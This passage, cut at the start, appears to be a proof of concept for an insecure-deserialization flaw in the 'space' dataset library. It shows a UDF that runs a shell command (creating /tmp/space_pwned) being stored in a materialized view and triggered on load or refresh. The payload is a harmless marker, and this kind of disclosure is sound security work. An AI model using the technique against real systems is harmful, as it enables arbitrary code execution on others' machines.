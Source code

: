        class MaliciousUDF:
         def __call__(self, batch):
           subprocess.run(["touch", "/tmp/space_pwned"]) # Malicious command execution
           batch["float64"] = batch["float64"] + 1
           return batch

       def get_malicious_udf():
         return MaliciousUDF()
       ```
  2. **Vulnerability Injection:**
     - In a notebook/script, define a `_sample_map_udf` function that imports and uses the `get_malicious_udf` from `malicious_udf.py`.
       ```python
       import pyarrow as pa
       from space import Dataset, DirCatalog, RayOptions
       from malicious_udf import get_malicious_udf # Import malicious UDF

       def _sample_map_udf(batch):
         malicious_udf = get_malicious_udf()
         return malicious_udf(batch) # Calling malicious UDF

       # Setup dataset and catalog (as in provided examples)
       catalog = DirCatalog("/tmp/space_cat")
       schema = pa.schema([("f", pa.int64()), ("float64", pa.float64())])
       ds = catalog.create_dataset("test_ds", schema, ["f"], [])

       # Create a view with the malicious UDF
       view = ds.map_batches(
           fn=_sample_map_udf,
           output_schema=schema,
           output_record_fields=[],
           input_fields=["f", "float64"]
       )

       # Materialize the view - this will serialize and store the malicious UDF
       mv = catalog.materialize("test_mv", view)
       ```
  3. **Trigger Vulnerability (Deserialization):**
     - In a separate step or script, load the materialized view. This action triggers the deserialization of the stored UDF, including the malicious payload.
       ```python
       from space import DirCatalog

       catalog = DirCatalog("/tmp/space_cat")
       mv_loaded = catalog.dataset("test_mv") # Loading dataset will trigger UDF deserialization
       print("Materialized view loaded (malicious UDF should be executed during loading)")
       ```
     - Alternatively, refresh the materialized view using the Ray runner: `mv_runner.refresh()`.
     - Or read the view using Ray runner: `view_runner.read_all()`.
  4. **Verification:**
     - After running the script in step 3, check if the file `/tmp/space_pwned` exists on the system where the deserialization occurred (likely the Ray head node or the local machine if running locally). The existence of this file indicates successful arbitrary code execution.
     - Monitor the environment where Space and Ray are running. Check logs and outputs for evidence of malicious UDF execution and any unexpected system behavior.
